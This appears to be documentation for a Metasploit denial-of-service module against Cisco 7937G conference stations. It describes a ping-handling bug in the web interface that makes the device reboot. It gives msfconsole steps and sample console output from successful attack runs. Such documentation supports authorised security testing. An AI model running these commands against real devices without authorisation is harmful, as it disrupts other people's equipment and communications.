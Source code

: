 ## Vulnerable Application

  [Cisco 7937G](https://www.cisco.com/c/en/us/support/collaboration-endpoints/unified-ip-conference-station-7937g/model.html) Conference Station.
  This module has been tested successfully against firmware versions SCCP-1-4-5-5 and SCCP-1-4-5-7.

### Description

  This module exploits a bug in how the conference station handles executing a ping via its web interface.
  By repeatedly executing the ping function without clearing out the resulting output,
  a DoS is caused that will reset the device after a few minutes.

## Verification Steps

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable Web Access on the device (default configuration).
  3. Start msfconsole
  4. Do: `use auxiliary/dos/cisco/cisco_7937g_dos_reboot`
  5. Do: `set rhost 192.168.1.10`
  6. Do: `run`
  7. The conference station should become nonresponsive and then power cycle itself.

## Options

  No options

## Scenarios

### Cisco 7937G Running Firmware Version SCCP-1-4-5-7

```
msf > use auxiliary/dos/cisco/cisco_7937g_dos_reboot
msf auxiliary(dos/cisco/cisco_7937g_dos_reboot) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf auxiliary(dos/cisco/cisco_7937g_dos_reboot) > run

[*] Starting server...
[*] 192.168.110.209 - Sending DoS Packets. Stand by.
[*] 192.168.110.209 - DoS reset attack completed!
[*] Auxiliary module execution completed
```

### Cisco 7937G Running Firmware Version SCCP-1-4-5-5

```
msf > use auxiliary/dos/cisco/cisco_7937g_dos_reboot
msf auxiliary(dos/cisco/cisco_7937g_dos_reboot) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf auxiliary(dos/cisco/cisco_7937g_dos_reboot) > run

[*] Starting server...
[*] 192.168.110.209 - Sending DoS Packets. Stand by.
[*] 192.168.110.209 - DoS reset attack completed!
[*] Auxiliary module execution completed
```
